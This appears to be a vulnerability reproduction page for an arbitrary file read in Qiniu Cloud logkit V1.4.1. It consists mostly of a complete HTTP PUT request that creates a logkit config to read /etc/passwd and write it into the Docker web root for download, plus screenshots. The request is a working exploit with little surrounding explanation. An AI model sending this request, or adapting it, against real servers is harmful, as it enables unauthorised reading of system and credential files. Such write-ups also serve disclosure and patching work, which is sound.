 # Qiniu Cloud logkit log_path Any file reading vulnerability

## Vulnerability Description

Qiniu Cloud logkit log_path parameter can customize reading server files. Writing the read files into the web directory will cause the attacker to read any files on the server, causing the server to leak sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Qiu Niu Cloud logkit V1.4.1</span>

## Network surveying and mapping



## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650509317464-3b428310-57b3-4323-86b8-3bc96270dc91.png)

Send request package configuration read file

```php
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650509841938-35e81793-6098-43ee-815d-311b45da7575.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650509983538-d5d3c3ef-8961-420a-b6e7-a7b2d526e585.png)

The file requested to be read is the /app/public directory as the default Web path of Docker, and writes to the readable target file.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650509901001-6b9e9d97-8540-40cb-84f8-4b30523e1491.png)